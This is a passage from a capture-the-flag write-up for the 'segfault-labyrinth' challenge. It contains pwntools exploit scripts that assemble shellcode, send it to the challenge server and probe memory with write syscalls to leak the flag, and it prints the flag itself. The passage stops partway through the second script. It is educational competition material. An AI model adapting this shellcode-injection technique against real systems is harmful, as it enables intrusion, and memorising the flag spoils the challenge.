 The section above creates our shellcode.  Repeated calls to `glibc.rand()` simulates the 9*16 `rand()` calls that are not relevant.

For the remaining 16 locations we'll call `write` and check that `write` returns `100` (the number of bytes we requested be written with `mov rdx, 100`).

If that check passes, then we have the flag, so we'll jump to the `end:`, and `exit` gracefully.

> A number of these type of challenges will produce no output if you do not exit cleanly, and it's worse with higher latency connections.  If `exit` is not an option then `hlt` or `jmp $` usually do the trick.


```python
shellcode = asm(sc)
if args.D: print(disasm(shellcode))
assert(len(shellcode) < 0x1000)
p.sendafter(b'Labyrinth\n',p64(len(shellcode)))
p.send(shellcode)
_ = p.recvline().decode().strip()
p.close()
print(_)
```

Send/run shellcode; get the flag.

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to segfault-labyrinth.2022.ctfcompetition.com on port 1337: Done
[*] Closed connection to segfault-labyrinth.2022.ctfcompetition.com port 1337
CTF{c0ngratulat1ons_oN_m4k1nG_1t_thr0uGh_th3_l4Byr1nth}
```

## Alternative Solves

### Alternative `exploit2.py`

Same as described above, however with locations table appended to payload vs. hardcoded and unrolled.  Payload is about 1/3 the size of the payload above.

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./challenge', checksec=False)

if args.REMOTE:
    p = remote('segfault-labyrinth.2022.ctfcompetition.com', 1337)
else:
    p = process(binary.path)

shellcode = asm(f'''
mov rdi, 1
mov rdx, 100
mov rbx, 16
loop:
dec rbx
lea rsi, [rip + locations]
mov rsi, qword ptr [rsi + rbx*8]
mov eax, {constants.SYS_write}
syscall
cmp rax, 100
je end
// test rbx, rbx
jne loop
```